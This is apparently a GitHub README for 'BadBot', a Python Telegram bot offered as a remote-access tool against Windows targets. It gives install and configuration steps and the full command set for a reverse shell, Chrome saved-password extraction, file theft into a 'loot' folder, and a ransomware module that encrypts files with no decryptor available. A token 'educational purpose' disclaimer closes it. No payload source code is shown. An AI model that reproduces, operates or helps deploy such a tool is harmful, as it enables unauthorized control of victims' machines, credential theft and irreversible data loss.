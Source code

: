 # The Badbot Project By Aman Singh
![GitHub Logo](/image.jpg) 
# Badbot
## Description
BadBot is a simple telegram bot written in python. It provides a reverse shell which can be use to command and control
any windows target machine. it also provides post exploitation like: -
1. chrome passoword extraction
2. image view 
3. document download 

It also gives some basic web application scanning tools like: - 
1. tracert 
2. dnslookup
3. nping 
4. whois
5. pagelinks
6. zone transfer

## Installation
***step 1:*** make sure that you have python 3 installed already on your pc.

***step 1.1*** type command pip install virtualenv

***step 1.2*** active your virtual environment

***step 2:*** type command pip install requirements.txt

***Additional files:*** to compile payload in windows install these packages, ignore it if you are using linux. pypiwin32==223 or pywin32==227


***step 3:*** edit the config file for changes 

```python
api = '<Your api Key>'
telegram_chat_id = '<your telegram Bot ID>'
```
***step 4:*** create a loot folder inside your main directory

***step 5:*** run command: python badBod.py

> It is always recommended to create an executable before running this application avoid some bugs...

## how to use

after running badBot.py you can directly got to telegram app and start sending commands to it.

***MAIN COMMANDS :-***
```telegram
/start - say hello to BadBot
/listen - start listening for targets(blocking message)
/client - list all the available targets
/select - select a target eg.(/select 1)
/rst - restart bot server 
```
>you can directly send shell commands as messages

***POST EXPLOIT COMMANDS :-***
```
/image - download and view an image eg.(/image file.jpg)
/download - document download eg.(/download file.doc)
/cpass - extract saved chrome passwords
/loot - check all your loots
/lootera - download a loot file eg.(/loot filename.ext)
```

***WEB APP RECON :-***
```
/seturl - set a target website
/geturl - check current target website
/tracert - trace route
/dnslookup - find dns record for a domain
/nping - test connectivity to a host
/whois - determine registered owner
/pagelinks - dump all links from the webpage
/zonetransfer - test for zone transfer 
/help - view this menu
```
***RANSOMWARE MODULE COMMANDS :-***
```
/set_password - assign password for your encryptor
/get_keys - retrieve password salt and key
/keygen - generate keys (if no password then random key)
/encrypt - start encrypting files
```
***!!!!WARNING BEFORE USE RANSOMWARE!!!!***

- This module will encrypt all your files.

- Decrypting module is not available (in development). 

- keys are saved in loot directory with corresponding ip and hostname.

- If anything goes wrong then developer of this project is not resposible..

## Conclusion
>this bot is only meant for educational purpose. So, please don't try to hack your girlfriend's / boyfriend's account with this application
